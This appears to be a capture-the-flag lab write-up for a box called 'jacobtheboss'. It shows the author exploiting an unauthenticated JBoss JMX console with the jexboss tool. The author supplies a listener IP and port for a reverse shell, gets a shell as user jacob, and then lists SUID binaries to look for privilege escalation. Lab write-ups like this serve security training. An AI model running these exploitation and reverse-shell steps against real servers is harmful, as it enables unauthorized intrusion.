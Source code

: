 without any further enumeration the **JBoss**  http service deployed on port 8083 Took my attention.

<br>


<h2 id="Validation-Exploitation">Validation & Exploitation</h2>


using the results of the reconnaissance as a starting point, and walking through the **JBoss** environment, we discovered that the **JMX Console** is beying deployed with no credentials. therefor we can upload and publish Web application ARchive (WAR) files remotely through this admin console, and compromize the network. 


we selectively chosed [jexboss](https://github.com/joaomatosf/jexboss) tool to automate the Exploitation part.


```
m3dsec@local:~/jacobtheboss.thm$ python ~/Tools/web_pentesting/jexboss/jexboss.py -host http://jacobtheboss.box:8080/
 ** Checking Host: http://jacobtheboss.box:8080/ **
 [*] Checking admin-console:                  [ OK ]
 [*] Checking Struts2:                        [ OK ]
 [*] Checking Servlet Deserialization:        [ OK ]
 [*] Checking Application Deserialization:    [ OK ]
 [*] Checking Jenkins:                        [ OK ]
 [*] Checking web-console:                    [ VULNERABLE ]
 [*] Checking jmx-console:                    [ VULNERABLE ]
 [*] Checking JMXInvokerServlet:              [ VULNERABLE ]

 * Sending exploit code to http://jacobtheboss.box:8080/. Please wait...

 * Please enter the IP address and tcp PORT of your listening server for try to get a REVERSE SHELL.
   OBS: You can also use the --cmd "command" to send specific commands to run on the server.
   IP Address (RHOST): 10.9.123.226
   Port (RPORT): 9991
```

we successfully exploited the vulnerability in JBoss to get remote code execution and obtain a shell with user jacob privileges.

```
[jacob@jacobtheboss tmp]$ id   
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
```



<h2 id="Internal-Enumeration">Internal Enumeration</h2>

With an interactive access to the underlying OS on our target network, we continued with the examination of the system searching for ways to escalate privileges to the root level. We found a SUID file:

```
[jacob@jacobtheboss /]$ find / -perm -4000 -user root 2>/dev/null
/usr/bin/pingsys        <<---
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
```